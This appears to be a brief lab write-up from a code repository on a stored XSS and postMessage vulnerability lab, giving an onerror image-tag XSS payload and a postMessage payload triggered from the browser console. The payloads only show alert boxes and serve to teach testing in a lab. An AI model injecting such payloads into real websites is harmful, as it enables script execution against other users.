 # Stored XSS and postMessage

This lab is for postMessage and xss Vulnerability.

## WriteUp

xss : <img src=z onerror=alert(1)>
postMessage : 

Open instect tab then goto debugger tab and open console there    
by pressing Esc key

then type payload : window.postMessage('alert(document.domain)', '*')  
For XSS
